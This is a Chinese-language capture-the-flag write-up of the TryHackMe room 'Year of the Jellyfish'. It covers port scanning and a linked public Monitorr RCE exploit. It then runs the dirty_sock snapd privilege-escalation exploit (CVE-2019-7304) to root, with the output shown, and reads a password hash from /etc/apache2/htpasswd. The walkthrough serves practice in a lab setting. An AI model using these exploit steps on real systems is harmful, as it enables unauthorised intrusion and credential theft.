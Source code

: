 ```yaml
---
sidebar_position: 165
tags: [Easy, Linux, 命令执行, SUID]
title: "Year of the Jellyfish"
description: "Year of the Jellyfish"
sidebar_label: "Year of the Jellyfish"
slug: /tryhackme/165
---
```


# Year of the Jellyfish

![image-20240709201136220](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-201138.png)

## 端口扫描

```bash
root@ip-10-10-126-21:~/yearofthejellyfish# nmap -sTCV -p 21,22,80,443,8000,896,22222 --min-rate 1000 3.250.181.103

Starting Nmap 7.60 ( https://nmap.org ) at 2023-10-22 08:23 BST
Nmap scan report for ec2-3-250-181-103.eu-west-1.compute.amazonaws.com (3.250.181.103)
Host is up (0.00057s latency).

PORT      STATE    SERVICE  VERSION
21/tcp    open     ftp      vsftpd 3.0.3
22/tcp    open     ssh      OpenSSH 5.9p1 Debian 5ubuntu1.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|_  2048 46:b2:81:be:e0:bc:a7:86:39:39:82:5b:bf:e5:65:58 (RSA)
80/tcp    open     http     Apache httpd 2.4.29
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Did not follow redirect to https://robyns-petshop.thm/
443/tcp   open     ssl/http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Robyn&#039;s Pet Shop
| ssl-cert: Subject: commonName=robyns-petshop.thm/organizationName=Robyns Petshop/stateOrProvinceName=South West/countryName=GB
| Subject Alternative Name: DNS:robyns-petshop.thm, DNS:monitorr.robyns-petshop.thm, DNS:beta.robyns-petshop.thm, DNS:dev.robyns-petshop.thm
| Not valid before: 2023-10-22T07:12:22
|_Not valid after:  2024-10-21T07:12:22
|_ssl-date: TLS randomness does not represent time
896/tcp   filtered unknown
8000/tcp  open     http-alt
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|     Content-Length: 15
|_    Request
22222/tcp open     ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8d:99:92:52:8e:73:ed:91:01:d3:a7:a0:87:37:f0:4f (RSA)
|   256 5a:c0:cc:a1:a8:79:eb:fd:6f:cf:f8:78:0d:2f:5d:db (ECDSA)
|_  256 0a:ca:b8:39:4e:ca:e3:cf:86:5c:88:b9:2e:25:7a:1b (EdDSA)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8000-TCP:V=7.60%I=7%D=10/22%Time=6534CDE1%P=x86_64-pc-linux-gnu%r(G
SF:enericLines,3F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Length:\x
SF:2015\r\n\r\n400\x20Bad\x20Request");
Service Info: Host: robyns-petshop.thm; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.94 seconds
```

## 80/443

从端口扫描的结果中我发现了以下一些域以及子域:

- robyns-petshop.thm
- monitorr.robyns-petshop.thm
- beta.robyns-petshop.thm : 一般这里会出现漏洞但是从扫描结果中并没有获取到什么, 因此估计是 rabbit holes
- dev.robyns-petshop.thm :

之后进行目录扫描, 也没有发现什么新奇的内容, 当我访问 `monitorr.robyns-petshop.thm`  子域时发现其泄露了 CMS 以及版本并且我们可以找到对应的 EXP [monitorr-v1.7.6m-rce](https://github.com/jayngng/monitorr-v1.7.6m-rce)

![image-20240709201205449](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-201207.png)

从 EXP 中我们可以知道这是通过上传一个 PHP 代码进行的 RCE 漏洞

## 后渗透

### www-data

![image-20240709201235238](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-201236.png)

![image-20240709201239118](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-201240.png)

### www-data —> root

之后执行 [linpeas.sh](http://linpeas.sh) 程序我们可以在 SUID 中发现一些特殊的内容

![image-20240709201247515](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-201249.png)

查看对应的 CVE 可以知道这是通过添加一个新的 SUDO 用户组的用户来完成提权的操作

[GitHub - initstring/dirty_sock: Linux privilege escalation exploit via snapd (CVE-2019-7304)](https://github.com/initstring/dirty_sock/tree/master)

下载对应的 EXP , 并进行执行我们可以发现成功执行了

```bash
(remote) www-data@petshop:/tmp$ python3 dirty_sockv2.py 

      ___  _ ____ ___ _   _     ____ ____ ____ _  _ 
      |  \ | |__/  |   \_/      [__  |  | |    |_/  
      |__/ | |  \  |    |   ___ ___] |__| |___ | \_ 
                       (version 2)

//=========[]==========================================\\
|| R&D     || initstring (@init_string)                ||
|| Source  || https://github.com/initstring/dirty_sock ||
|| Details || https://initblog.com/2019/dirty-sock     ||
\\=========[]==========================================//

[+] Slipped dirty sock on random socket file: /tmp/rrttmlpmcv;uid=0;
[+] Binding to socket file...
[+] Connecting to snapd API...
[+] Deleting trojan snap (and sleeping 5 seconds)...
[+] Installing the trojan snap (and sleeping 8 seconds)...
[+] Deleting trojan snap (and sleeping 5 seconds)...

********************
Success! You can now `su` to the following account and use sudo:
   username: dirty_sock
   password: dirty_sock
********************

(remote) www-data@petshop:/tmp$ su dirty_sock
Password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

dirty_sock@petshop:/tmp$ id
uid=1001(dirty_sock) gid=1001(dirty_sock) groups=1001(dirty_sock),27(sudo)
dirty_sock@petshop:/tmp$ sudo -l
[sudo] password for dirty_sock: 
Matching Defaults entries for dirty_sock on petshop:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dirty_sock may run the following commands on petshop:
    (ALL : ALL) ALL
    (ALL : ALL) ALL
dirty_sock@petshop:/tmp$ sudo /bin/bash -p
root@petshop:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
```

## Rabbit holes

### robyn

在执行 [linpeas.sh](http://linpeas.sh) 时我们可以发现一个特殊的文件 `/etc/apache2/htpasswd` 其中告诉我们用户 robyn 的 hash , 但是我们无法解密

```bash
(remote) www-data@petshop:/tmp$ cat /etc/apache2/htpasswd 
robyn:$apr1$tMFlj08b$5VCOhI2see0L0WRU8Mn.b.
```